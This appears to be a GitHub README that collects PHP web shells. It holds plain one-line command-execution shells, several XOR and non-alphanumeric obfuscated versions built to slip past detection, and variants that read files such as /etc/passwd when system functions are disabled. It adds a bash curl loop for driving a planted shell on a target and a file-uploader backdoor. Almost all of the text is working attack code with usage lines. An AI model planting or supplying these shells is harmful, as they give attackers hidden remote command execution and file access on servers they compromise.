



# Simple PHP Web Shell


### Simple HTTP Requests GET Method Shell
```
<?=`$_GET[0]`?>

[*] Usage: http://target.com/path/to/shell.php?0=command
```

### Simple HTTP Requests POST Method Shell
```
<?=`$_POST[0]`?>

[*] Usage: curl -X POST http://target.com/path/to/shell.php -d "0=command"
```

### Support GET and POST Requests Method
```
<?=`{$_REQUEST['_']}`?>

[*] Usage:
 - http://target.com/path/to/shell.php?_=command
 - curl -X POST http://target.com/path/to/shell.php -d "_=command"
```

# Simple Obfuscated PHP Web Shell

### Obfuscated PHP Web shell Example
```
<?=$_="";$_="'";$_=($_^chr(4*4*(5+5)-40)).($_^chr(47+ord(1==1))).($_^chr(ord('_')+3)).($_^chr(((10*10)+(5*3))));$_=${$_}['_'^'o'];echo`$_`?>

[*] Usage: http://target.com/path/to/shell.php?0=command
[*] Note: This is obfuscation of <?=`$_GET[0]`?>
```

### Non-alphanumeric obfuscation PHP Web Shell
```
<?php $_="{"; $_=($_^"<").($_^">;").($_^"/"); ?> <?=${'_'.$_}["_"](${'_'.$_}["__"]);?>

[*] Usage: http://target.com/path/to/shell.php?_=function&__=argument
[*] E.g.: http://target.com/path/to/shell.php?_=system&__=ls
```

### Another Example Obfuscation of Simple PHP Webshell
```
<?php $_=${'_'.('{{{' ^ '<>/')};$_[0]($_[1]); ?>
<?php $_=${'_'.('{'^'<').('{'^'>;').('{'^'/')};$_[0]($_[1]); ?>

[*] Usage: http://target.com/path/to/shell.php?0=function&1=argument
[*] E.g.: http://target.com/path/to/shell.php?0=system&1=ls
```

##### in case if some functions like system,exec,etc. are disabled we can use var_dump or print_r for print output some function:
```
<?php $_=${'_'.('{{{' ^ '<>/')};$_[0]($_[1]($_[2])); ?>
<?php $_=${'_'.('{'^'<').('{'^'>;').('{'^'/')};$_[0]($_[1]($_[2])); ?>

[*] Usage: http://target.com/path/to/shell.php?0=function1&1=function2&2=argument
[*] E.g.:
    - http://target.com/path/to/shell.php?0=var_dump&1=scandir&2=.
    - http://target.com/path/to/shell.php?0=print_r&1=file_get_contents&2=/etc/passwd
```

### Without Space Obfuscation PHP Web Shell
```
<?=$_=${'_'.('{{{'^'<>/')};$_[0]($_[1]);?>

[*] Usage: http://target.com/path/to/shell.php?0=function&1=argument
[*] E.g.: http://target.com/path/to/shell.php?0=system&1=ls
```

##### in case if some functions like system,exec,etc. are disabled we can use var_dump or print_r for print output some function:
```
<?=$_=${'_'.('{{{'^'<>/')};$_[0]($_[1]($_[2]));?>

[*] Usage: http://target.com/path/to/shell.php?0=function1&1=function2&2=argument
[*] E.g.: http://target.com/path/to/shell.php?0=print_r&1=glob&2=*
```

### Without Space and Non-alphanumeric Obfuscation PHP Web Shell
```
<?=$_=${'_'.('{{{'^'<>/')};$_['__']($_['___']);?>

[*] Usage: http://target.com/path/to/shell.php?__=function&___=argument
[*] E.g.: http://target.com/path/to/shell.php?__=system&___=ls
```

##### in case if some functions like system,exec,etc. are disabled we can use var_dump or print_r for print output some function:
```
<?=$_=${'_'.('{{{'^'<>/')};$_['__']($_['___']($_['____']));?>

[*] Usage: http://target.com/path/to/shell.php?__=function1&___=function2&____=argument
[*] E.g.: http://target.com/path/to/shell.php?__=var_dump&___=scandir&____=/
```

# Simple Bash Script For Handle Simple PHP Backdoor

```
while true;do read -p "[>] halah@wibu:~$ " cmd;curl $1$cmd;done
```
with url encode:

```
while true;do read -p "[>] halah@wibu:~$ " cmd;curl -G $1 --data-urlencode "0=$cmd";done
```

save into cli.sh and give access to execute with ```chmod +x cli.sh```

[*] Usage:
```
./cli.sh http://target.com/path/to/shell.php?0=
```

<center>
  
  
  
</center>

<h1>File Uploader Backdoor</h1>

```
<?php echo 'Uploader<br>';echo '<br>';echo '<form action="" method="post" enctype="multipart/form-data" name="uploader" id="uploader">';echo '<input type="file" name="file" size="50"><input name="_upl" type="submit" id="_upl" value="Upload"></form>';if( $_POST['_upl'] == "Upload" ) {if(@copy($_FILES['file']['tmp_name'], $_FILES['file']['name'])) { echo '<b>Upload !!!</b><br><br>'; }else { echo '<b>Upload !!!</b><br><br>'; }}?>
```

